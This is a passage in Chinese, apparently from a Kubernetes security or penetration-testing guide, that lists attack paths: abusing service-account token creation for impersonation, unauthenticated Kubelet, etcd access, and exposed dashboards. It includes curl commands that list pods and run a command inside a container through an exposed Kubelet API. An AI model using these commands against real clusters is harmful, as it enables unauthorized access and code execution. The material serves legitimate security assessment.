如果SA有`create serviceaccounts/token`权限，可以为集群中任意SA（包括高权限的kube-system SA）创建新的token，实现身份冒充。

**路径3：Kubelet API未授权访问**

如果Kubelet的10250端口对外暴露且未启用认证，可以直接通过Kubelet API列出节点上的所有Pod、读取日志、甚至exec到任意容器。

```bash
# 检测Kubelet API未授权访问
curl -sk https://node-ip:10250/pods | python3 -m json.tool
curl -sk https://node-ip:10250/run/<namespace>/<pod>/<container> -d "cmd=id"
```

**路径4：etcd未授权访问**

如果etcd的2379端口对外暴露且未配置客户端证书认证，可以直接读取集群中的所有数据。

**路径5：Dashboard/控制台暴露**

如果Kubernetes Dashboard或Rancher等管理控制台对外暴露且使用了弱密码或默认凭据，可以直接获取管理界面访问权限。
